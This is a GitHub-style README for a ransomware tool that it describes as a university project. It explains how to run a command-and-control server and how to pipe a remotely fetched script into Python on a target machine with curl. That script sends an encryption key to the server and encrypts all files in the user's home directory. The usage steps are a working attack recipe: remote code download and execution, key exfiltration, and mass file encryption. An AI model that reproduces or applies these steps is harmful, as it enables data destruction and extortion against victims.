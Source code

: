 # Ransomware project

This is a sample ransomware created for a university project

## WARNING

__This library can and will encrypt all files in your home directory. Do not run unless you know what you are doing!__

### Usage

Start the C2-server:
```
python c2.py <hostname> <payload port> <comm port>
```
Where:

`<hostname>` is the host or ip the target should connect to

`<payload port>` is the port the mock http server (to download the encryption script from) should listen on

`<comm port>` is the port the encryption script sends the aes key to

Then execute the following command on the target:
```
curl -s http://<hostname>:<payload port> | python
```
The script will run immediately, creating a random encryption key, send it to the C2 server and then start encrypting all files in the users home directory

### Features
* No external dependencies outside the python standard library. Basic AES and RSA are included in the script. 
* Files are encrypted using AES-128-CBC, and can be decrypted using any AES-library after the target has recieved the key.
* Nothing is stored on the target's computer, the script is self contained and can be read directly from the output from curl
* Encryption keys are sent RSA encrypted to make it harder to recover by sniffing network traffic